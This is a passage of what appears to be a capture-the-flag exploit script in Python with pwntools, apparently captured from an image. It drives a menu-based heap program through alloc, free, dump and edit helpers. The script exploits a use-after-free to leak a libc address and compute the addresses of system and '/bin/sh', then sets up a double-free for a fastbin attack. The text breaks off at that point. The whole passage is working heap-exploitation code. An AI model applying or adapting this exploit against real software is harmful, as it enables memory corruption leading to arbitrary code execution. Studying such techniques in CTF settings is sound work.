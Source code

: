 ```python

def alloc(size, data):

    r.sendlineafter('>>', '1')
    r.sendlineafter('>>', str(size))
    r.sendlineafter('>>', data)

    return

def dump(idx):

    r.sendlineafter('>>', '4')
    r.sendlineafter('>>', str(idx))

    r.recvuntil('SHOWING....\n')

    return u64(r.recv(6).ljust(8, '\x00'))

def free(idx):

    r.sendlineafter('>>', '2')
    r.sendlineafter('>>', str(idx))

    return

def edit(idx, size, data):

    r.sendlineafter('>>', '3')
    r.sendlineafter('>>', str(idx))
    r.sendlineafter('>>', str(size))
    r.sendlineafter('>>', data)

    return

def pwn():
    
    # allocate small chunks in order for them to get populated
    # with pointers to libc once they are free'd
    alloc(0x80, 'A'*10) # chunk 1
    alloc(0x80, 'B'*10) # chunk 2

    free(0)
    
    # UAF
    leak        = dump(0)
    libc        = leak - 0x3c4b78
    system      = libc + sys_off
    binsh       = libc + sh_off

    log.info("Leak:        0x{:x}".format(leak))
    log.info("Libc:        0x{:x}".format(libc))
    log.info("system:      0x{:x}".format(system))

    # fresh start - consolidate free chunks
    free(1)

    alloc(0x60, 'C'*10) # chunk 3
    alloc(0x60, 'D'*10) # chunk 4
    alloc(0x80, 'E'*10) # chunk 5

    # double-free bug => fastbin attack
    free(3)
    free(2)
```